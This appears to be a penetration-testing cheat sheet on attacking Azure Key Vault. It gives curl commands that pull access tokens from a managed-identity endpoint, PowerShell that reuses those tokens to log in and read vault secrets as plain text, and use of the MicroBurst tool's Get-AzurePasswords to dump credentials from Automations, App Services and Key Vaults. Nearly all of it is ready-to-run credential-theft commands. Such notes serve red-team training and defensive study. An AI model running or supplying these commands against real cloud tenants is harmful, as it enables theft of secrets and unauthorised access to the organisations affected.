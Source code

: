# Azure Services - KeyVault

## Access Token

* Keyvault access token

    ```powershell
    curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&apiversion=2017-09-01" -H secret:$IDENTITY_HEADER
    curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:$IDENTITY_HEADER
    ```

* Connect with the access token

    ```ps1
    PS> $token = 'eyJ0..'
    PS> $keyvaulttoken = 'eyJ0..'
    PS> $accid = '2e...bc'
    PS Az> Connect-AzAccount -AccessToken $token -AccountId $accid -KeyVaultAccessToken $keyvaulttoken
    ```

## Query Secrets

* Query the vault and the secrets

    ```ps1
    PS Az> Get-AzKeyVault
    PS Az> Get-AzKeyVaultSecret -VaultName <VaultName>
    PS Az> Get-AzKeyVaultSecret -VaultName <VaultName> -Name Reader -AsPlainText
    ```

* Extract secrets from Automations, AppServices and KeyVaults

    ```powershell
    Import-Module Microburst.psm1
    PS Microburst> Get-AzurePasswords
    PS Microburst> Get-AzurePasswords -Verbose | Out-GridView
    ```

## References

* [Get-AzurePasswords: A Tool for Dumping Credentials from Azure Subscriptions - August 28, 2018 - Karl Fosaaen](https://www.netspi.com/blog/technical/cloud-penetration-testing/get-azurepasswords/)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)
